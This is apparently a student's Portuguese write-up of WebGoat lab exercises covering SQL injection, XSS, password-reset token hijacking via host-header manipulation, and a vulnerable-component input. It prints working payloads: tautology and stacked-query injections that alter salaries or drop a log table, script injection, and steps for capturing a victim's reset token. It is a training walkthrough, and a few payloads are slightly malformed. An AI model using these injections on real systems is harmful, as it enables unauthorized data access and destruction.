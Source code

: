 ## Pergunta 1.1 - SQL Injection ##
### 2) ###
Retornar o departamento do empregado Bob Franco. 

    SELECT department FROM Employees WHERE first_name='Bob' AND last_name='Franco'

![1.2](./imagens/1.2.png)  


### 3) ###
Alterar o departamento do empregado Tobi Barnett para 'Sales'.

    UPDATE Employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'
    
![1.3](./imagens/1.3.png)


### 4) ###
Adicionar a coluna "phone" na tabela "employees"

    ALTER TABLE Employees ADD phone varchar(20)
    
![1.4](./imagens/1.4.png)


### 5) ###
Conceder a um grupo de utilizadores o direito de alterar tabelas

    GRANT ALTER TABLE TO 'UnauthorizedUser'
    
![1.5](./imagens/1.5.png)


### 9) ###
Obter todos os utilizadores da tabela onde os campos foram preenchidos por:
+ Smith'
+ or
+ '1'='1

A query final otida foi:

    SELECT * FROM user_data WHERE first_name="John" and last_name='Smith' or '1'='1'
    
![1.9](./imagens/1.9.png)


### 10) ###
O objetivo desta alínea passava por retornar todos os dados da tabela 'users'. Assim, após descobrimos que o campo User_Id era suscetível a SQL Injection, preenchemos os campos da seguinte forma:
+ **Login_Count**: 1
+ **User_Id**: 1 or 1=1

Obtendo assim:

    SELECT * FROM user_data WHERE Login_Count=1 and userid=1 or 1=1
    
![1.10](./imagens/1.10.png)


### 11) ###
Neste ponto era pretendido obter todos os dados da tabela 'employees', sabendo que a query era: 
    
    SELECT * FROM employees WHERE last_name='" + name + "' AND auth_tan= '" + auth_tan + ""
   
Assim, os campos foram completados com: 
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A' or '1'='1';--

![1.11](./imagens/1.11.png)


### 12) ###
Após sabermos o formato da tabela 'employees' devido à alínea anterior bastava-nos alterar o input pretendido num dos campos criando uma nova query e delimintando-as com ';'

Posto isto, os campos forma preenchidos da seguinte forma:
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A'; UPDATE SET salary=9999999 where last_name='Smith

![1.12](./imagens/1.12.png)


### 13) ###
Para apagar os registos feitos pelo utilizador o input foi completado da seguinte forma: 
    
    Smith'; DROP TABLE access_log;--
    
Assim, a query anterior foi separada da nova utilizando novamente ";"

![1.13](./imagens/1.13.png)



## Pergunta 2.1 - XSS ##

### 2) ###

Após testarmos o comando na barra de endereços chegámos à conclusão qe a informação apresentada em ambas as páginas era a mesma.

![2.2](./imagens/2.2.png)


### 7) ###
Depois de executar alguns testes o campo vulnerável descoberto foi o do cartão de crédito, onde executamos:

    <javascript>alert()</javascript>
    
    
### 10) ###

Primeiramente fomos à fonte do JavaScritp através do atalho de teclado : CTRL + SHIFT + I e procurámos pelo ficheiro GoatRouter.js onde encontrámos todas as rotas inclusive a de teste que tinha sido deixada durante a produção da aplicação.

![2.10.1](./imagens/2.10.1.png)



![2.10.2](./imagens/2.10.2.png)


### 11) ###

Para a realização deste ponto foram abertos a consola e um novo separador com a rota anteriormente encontrada. Nessa rota foi acrescentado o comando: 

    
    /<script>webgoat.customjs.phoneHome()<%2Fscript>
    
De seguida, na consola foi nos apresentado a resposta.
     



### 12) ###

+ **1**: Solution 4
+ **2**: Solution 3
+ **3**: Solution 1
+ **4**: Solution 2
+ **5**: Solution 4



## Pergunta 3.1 - Password Reset ##

### 2) ###

Após seguir as instruções, foi iniciado o WebWolf para aceder ao email e realizar o login, como mostram as figuras abaixo:

![3.2.1](./imagens/3.2.1.png)


![3.2.2](./imagens/3.2.2.png)


### 4) ###

Após várias tentativas as cores encontradas foram:

+ **Admin**: Green
+ **Larry**: Yellow
+ **Tom**: Purple


### 6) ###

A princípio foi necessário realizar um teste com um utilizadors do atacante para entender como funciona o processo de *password changing*. Feito isto, foi constatado que o link enviado ao Webwolf continha um *token* que é passado no endereço. Sendo assim, foi realizado um pedido de mudança de *password* para o email da vítima (tom@webgoat-cloud.org).  
Com o auxílio da ferramenta Burp, interceptamos o *request* feito pela vítima e ao alterar o host para `localhost:9090`, este pedido foi encaminhado para o Webwolf.  
As figuras abaixo ilustram estes passos.
![6.1](./imagens/burp0.png)
![6.2](./imagens/burp1.png)
![6.3](./imagens/burp2.png)

Já no Webwolf, logado como o atacante, recebemos no `Incoming requests` o pedido para alterar a *password* da vítima com o seu respectivo *token*, como mostra a figura abaixo.
![6.4](./imagens/burp3.png)

Em seguida, inserimos o *token* da vítima no endereço de alteração de *password* do WebGoat para chegar à url: `http://localhost:8080/WebGoat/PasswordReset/reset/reset-password/c3b91407-c7c3-4044-8eaa-cc3d98e9792b` e então, finalmente tivemos acesso para alterar a *password* do email da vítima como mostram as figuras a seguir.
![6.5](./imagens/burp4.png)
![6.6](./imagens/burp5.png)

## Pergunta 4.1 - Vulnerable components ##

### 12) ###
Para explorar a vulnerabilidade presente bastou inserir o seguinte excerto de código:

    <java.lang.Integer>1</java.lang.Integer>



  

  
    




